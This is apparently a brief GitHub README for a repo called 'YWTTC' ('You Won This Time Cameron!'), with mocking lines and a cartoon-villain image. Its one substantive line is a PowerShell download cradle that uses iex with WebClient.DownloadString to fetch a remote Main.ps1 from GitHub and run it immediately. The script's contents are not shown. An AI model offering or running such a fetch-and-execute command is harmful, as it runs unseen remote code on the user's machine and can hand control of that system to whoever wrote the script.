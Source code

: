 # YWTTC = You Won This Time Cameron!
#### iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
######But we all know who's gonna be the ultimate winner!!
######Also, you're fired!
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
